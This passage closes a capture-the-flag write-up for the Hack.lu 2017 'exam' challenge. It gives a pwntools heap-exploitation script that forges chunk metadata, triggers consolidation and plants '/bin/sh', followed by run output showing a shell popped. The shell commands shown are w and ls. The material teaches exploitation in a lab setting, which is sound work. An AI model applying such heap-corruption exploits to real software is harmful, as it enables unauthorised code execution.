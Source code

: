```
	print target.recvuntil('>')
	target.sendline(str(index))

# Add the first summary
addSum('0'*0x7f)

# Add a heap object that is a different size than the rest of the heap objects
createCrib()

# Allocate three additional summaries to use for consolidation/later purposes
addSum('1'*0x7f)
addSum('2'*0x7f)
addSum('3'*0x7f)

# Free the second summary, than replace it with a value that will edit the third summaries heap metadata to believe the previous heap chunk is free and starts where chunk 0 is
remSum(2)
addSum('4'*0x78 + p64(0x1e0) + "\x90")

# Free the first and last summaries to cause heap consolidation
remSum(0)
remSum(3)

# Allocate another summary to take up space
addSum('5'*0x7f)

# Allocate a last summary to overwrite the data we need to with the first summary
addSum('6'*40 + "ITSMAGIC" + "/bin/sh\x00")

# handle the exam with the summary which we editied the data for
exam(1)

# Drop to an interactive shell
target.interactive()

# This exploit is based off of: https://amritabi0s.wordpress.com/2017/10/19/hack-lu-2017-exam-write-up/
```

when we run it:

```
$	python exploit.py
.	.	.
>
 You're allowed to bring one summary. Which one is it?
>
[*] Switching to interactive mode
 Cheeky little fella. Screw math, you deserve a straight A!
$ w
 00:19:04 up  4:27,  1 user,  load average: 0.40, 0.79, 0.78
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               19:51    4:27m 10:53   0.02s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
$ ls
core        libc.so.6           peda-session-ls.txt          solved.py
exam        peda-session-dash.txt  peda-session-w.procps.txt  step0
exploit.py  peda-session-exam.txt  readme.md              step1
$ 
[*] Interrupted
[*] Stopped process './exam' (pid 20086)
```

Just like that, we popped a shell. Once again this writeup is based off of: This writeup is based off of: https://amritabi0s.wordpress.com/2017/10/19/hack-lu-2017-exam-write-up/
